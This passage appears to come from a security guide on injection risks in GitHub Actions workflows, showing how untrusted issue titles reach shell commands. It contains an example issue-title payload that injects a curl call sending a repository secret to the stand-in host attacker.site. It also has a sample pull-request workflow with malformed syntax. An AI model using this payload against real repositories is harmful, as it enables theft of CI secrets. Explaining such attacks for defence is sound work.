 Workflows can be triggered by a wide range of events, including issue creation, pull requests, pushes, and even comments. Every trigger includes a payload of metadata—such as issue titles or pull request branch names—that teams often use inside the workflow using templating syntax like `${{ github.event.issue.title }}`.

This convenience is also where the risks begin.

## Common GitHub Actions Attacks

Let's look at some common injection attacks that can happen with GitHub Actions.

### Command Injection within GitHub Actions

A workflow might include a step like this:

```yaml
- run: echo "${{ github.event.issue.title }}"
```

This command looks innocent—it just echoes the issue title to the console. This is unsafe because `github.event.issue.title` comes from a user input field and is inserted directly into a shell command. A bad actor could open an issue in a public repo and any input they use for the title of the issue is inserted directly into the shell command.

For example, a title like this:

```
"; curl http://attacker.site?token=${{ secrets.SERVICE_SECRET }}; x="
```

Would result in the following shell execution:

```bash
echo ""; curl http://attacker.site?token=... ; x=""
```

This effectively leaks the secret token to an external server. Typically this might be combined with a `sleep` so that there is an opportunity for the attacker to delay the workflow and use the temporary token with malicious intent.

Look for untrusted data sources—like issue titles, branch names, comments or pull request metadata—being inserted into shell commands or scripts. 

### Code Injection in Builds with GitHub Actions

To catch this kind of issue, you need to understand both the **source** of the data (where it comes from) and the **sink** (where it’s used). When untrusted input reaches a code execution point like `run`, `script`, or a third-party action’s `args`, it becomes an injection risk. Care should also be taken when `uses` pulls in workflow dependencies like `run-scripts` may come from third-parties.

Here is an example of a workflow that allows the attacker to inject code through a regular pull request anticipating installation which could run any arbitrary code. 

```jsx
name: On Pull Request
on: pull_request
jobs:
  job1:
    steps:
    - name: Checkout
      uses: actions/checkout
    - name: Install
      uses: npm install
```
